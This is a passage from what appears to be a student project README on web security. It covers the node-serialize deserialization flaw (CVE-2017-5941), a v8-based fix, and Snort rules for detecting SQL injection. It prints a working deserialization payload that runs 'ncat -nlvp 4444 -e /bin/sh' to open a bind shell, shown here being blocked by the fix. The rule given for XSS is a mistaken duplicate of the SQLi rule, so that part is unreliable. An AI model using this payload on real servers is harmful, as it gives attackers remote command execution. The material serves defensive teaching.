  |Team Treehouse|**Components** such as libraries, frameworks, and other software modules, run with same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover.  Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts|
  |GeeksforGeeks|**Components with known vulnerabilities** can be defined as third-party apps or software platforms that are outdated and contain bugs that are public to all, i.e. sites like <a href="https://www.exploit-db.com">exploit-db</a> contain the full details as to how to exploit the bugs to put the security of the whole website under severe threat.|
  |WhiteSource|**Components with known vulnerabilities** contain vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers.  From the moment of publication, a vulnerability can be exploited by hacker who find the documentation.|
  
  As developers, we often solely focus on functionality of the software we are writing, very rarely do we think about security.  We'll often incorporate libraries that help us get our job done, but we don't do our due diligence in researching possible vulnerabilities associated with those libraries.  The security often gets overlooked.
  
  ---
### Demonstration
  Our Web Application makes use of the node package **"node-serialize"** to serialize and deserialize objects. The **"node-serialize"** library has a CVE (Common Vulnerability and Exposure) associated with it.
  
  <a href="https://www.cvedetails.com/cve/CVE-2017-5941/">CVE-2017-5941</a> contains a description and links to proof of concept exploit code for the node-serialize library.
  
  For an in-depth demonstration on how to exploit a component with a known vulnerability, please refer to our Insecure Deserialization section, where you'll be taken through a step-by-step guide on how to exploit the **"node-serialize"** library.
  
  ---
### Remediation
  A mitigation technique to discover vulnerabilities against our web application is to manually check the libraries and version against exploit databases, CVEs, etc.  This is how we discovered the vulnerability with **node serialize v.0.0.4**, however, there are more efficient methods to do so.  As developers we can employ automated scanners, such as <a href="https://www.tenable.com">Tenable's Nessus</a> or <a href="https://www.openvas.org">Openvas</a>.
  
  Automated scanners enable developers to continuously monitor their web application for current and new vulnerabilities not only in our web applications, but in all software running on our Host system. Very rarely do hackers rely on one vulnerability to gain control of a system.  Systems are usually "rooted" by chaining multiple exploits together. Automated scanners are an effective way to discover vulnerabilities and address "low hanging fruit".
  
  Once a component with a known vulnerability is discovered, developers should seek to remove that component from their application, or mitigate the vulnerability.  In the Insecure Deserialization section, we mitigated the vulnerability with the use of the <code>JSON.stringify</code> function.  A more preferable solution, would be to use another library that provides the same functionality, but without the vulnerabilty.
  
  The nodejs engine <span class="bold">v8</span> provides us such a capability. It allows to serialize and deserialize objects.
  
  Our code to serialize user input is now:
  
  ```
  var v8 = require('v8')
  var obj = req.body.userInput
  var serialized = v8.serialize(obj)
  var json = JSON.stringify(serialized)
  ```
  
  Here's what you'll see if you serialize an object in our web app:
  
  ```
  {test:123}
  ```
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities1.PNG">
  
  Our code to deserialize an object is now:
  
  ```
  var obj = Buffer.from(JSON.parse(req.body.userInput).data)
  var deserialized = obj.toString('utf8')
  ```
  
  Here's what you'll see if you deserialize the corresponding serialized object:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities2.PNG">
  
  As in the Insecure Deserialization Section, attempt to start up a BIND shell on our webserver, by deserializing the following malicious input:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  We now receive a error message, instead of a BIND shell:
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities3.PNG">  
  
  ---
### Citations: Using Components with Known Vulnerabilities
  "Insecure Components". Team Treehouse.  
  https://teamtreehouse.com/library/insecure-components (accessed Feb 18, 2022).
  
  "What is using components with known vulnerabilities". GeeksForGeeks.  
  https://www.geeksforgeeks.org/what-is-components-with-known-vulnerability/ (accessed Feb 19, 2022).
  
  "You can't ignore using components with known vulnerabilities". Whitesource.  
  https://www.whitesourcesoftware.com/resources/blog/using-components-with-known-vulnerabilities/ (accessed Feb 19, 2022).
</details>

# 10. Insufficient Logging & Monitoring
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |Siemba|**Insufficient logging and monitoring** is missing security critical information logs or lack of proper log format, context, storage, security and timely response to detect an incident or breach.|
  |Crashtest Security|Attacks based on <span class="bold">insufficient logging and monitoring</span> are usually ranked high prevalence, medium in opportunity, and low in detectability.  Ensuring that all events are logged, and events monitored, as a result, is often considered a first step in intrusion detection.|
  |MITRE|When a security-critical events are not logged properly, such as a failed login attempt, this can make malicious behavior more difficult to detect and may hinder forensic alanysis after an attack succeeds.|
  
  ---
### Demonstration
  **Insufficient Logging and Monitoring** is not necessarily a vulnerability that can be exploited, however, it makes an attack on system more likely to succeed.  The absence of logging and monitoring means that it is almost impossible to detect an attack on a system and thus prevents any response or mitigative actions from taking place.
  
  ---
### Remediation
  Our remediation makes use of **Snort**. To see this remediation, please head to our <a href="http://ec2-157-175-92-30.me-south-1.compute.amazonaws.com:37773/insufficientLoggingAndMonitoring">AWS EC2 instance</a> and try the exercises there, which will trigger our web application to start up Snort.
  
  Snort is an Intrustion Detection System (IDS) and is installed on our host operating system in our AWS EC2 instance.
  
  The heart of what makes Snort work is the rules file. Below, is a screenshot of the rules that we created:</p>
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/snort_rules.png" width="100%">
  
  The following screenshot explains the general syntax of a snort rule:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/snort_syntax.png" width="100%">
  
  This following rule tells Snort what to look for in an sqli attack:
  ```
  alert tcp any any -> any any (msg: "SERVER-WEBAPP SQLI";content: "%27"; sid:10000003;)
  ```

  The only portion of the rule not explained in the syntax screenshot, is the **content** key-value pair.  The value, which in this case is "%27", is unicode for a single quote, which is what is required to conduct an sqli attack against our web application.  This rule tells snort to inspect packets being sent to our system, if detects a single quote in the packet, it will generate a log.
  
  This following rule tells Snort what to look for in an XSS attack:
  ```
  alert tcp any any -> any any (msg: "SERVER-WEBAPP SQLI";content: "%27"; sid:10000003;)
  ```
  
  In this rule when snort detects the string "alert" in a packet, it will generate a log for possible XSS attack.
  
  In the logs we can see your IP, or the IP of the attacker attempting to exploit our web application. (IP obscured in screenshot below):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/logs.PNG">
  
  This demonstration shows how powerful logging and monitoring can be, it can help defenders identify possible intrusions into their system.  However, an IDS is only as good as the rules that written for it.  Additionally, defenders must also be skilled in reviewing logs.  In our example we only had two attacks, in an enterprise system, their could potentially be hundreds, thousands, even hundreds of thousands of alerts.
  
  ---
### Citations: Insufficient Logging & Monitoring
  "OWASP Top 10 - Insufficient Logging and Monitoring". Siemba.  
  https://www.siemba.io/post/owasp-top-10-insufficient-logging-monitoring (accessed Feb 26, 2022).
  
  "Comprehensive Guide To Insufficient Logging and Monitoring and How to Prevent It". Crashtest Security.  
  https://crashtest-security.com/insufficient-logging-monitoring-guide/ (accessed Feb 27, 2022).
  
  "Insufficient Logging". MITRE.  
  https://cwe.mitre.org/data/definitions/778.html (accessed Feb 26, 2022).
</details>

# Citations: Primary Sources

"Website Security Research Project." EECS Project site.
https://eecs.oregonstate.edu/capstone/submission/pages/viewSingleProject.php?id=OLLHp1v4lrRuobYa (accessed Dec 2021-Jan 2022).

Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.
https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Dec 2021-Jan 2022).

# Code References

REFERENCES  
<sub>
├── body-parser		| "body-parser", http://expressjs.com/en/resources/middleware/body-parser.html  
├── crypto			| "Crypto", https://nodejs.org/api/crypto.html#cryptorandombytessize-callback  
├── expressjs		| "Hello world example", https://expressjs.com/en/starter/hello-world.html  
├── expressjs		| "cs340_sample_nodejs_app", https://github.com/knightsamar/cs340_sample_nodejs_app  
├── expressjs		| OSU CS340 INTRODUCTION TO DATABASES, https://canvas.oregonstate.edu/courses/1825733  
├── expressjs		| "Express error handling", https://expressjs.com/en/guide/error-handling.html  
├── express-session	| "express-session", http://expressjs.com/en/resources/middleware/session.html  
├── handlebars		| "Introduction", https://handlebarsjs.com/guide/  
├── handlebars		| "Express Handlebars", https://www.npmjs.com/package/express-handlebars  
├── handlebars		| "Hello Handlebars", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/hello-node/hello-handlebars.html  
├── handlebars		| "app.locals", https://expressjs.com/en/api.html#app.locals  
├── JavaScript		| "Element.classList", https://developer.mozilla.org/en-US/docs/Web/API/Element/classList  
├── JavaScript 		| "parseInt()", https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt  
├── MySQL			| "Using Node on the Engineering Servers", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/tools-and-overview/Using-Node-on-the-Engineering-Servers.html  
└── Window.prompt 	| "Window.prompt()", https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt  
</sub>
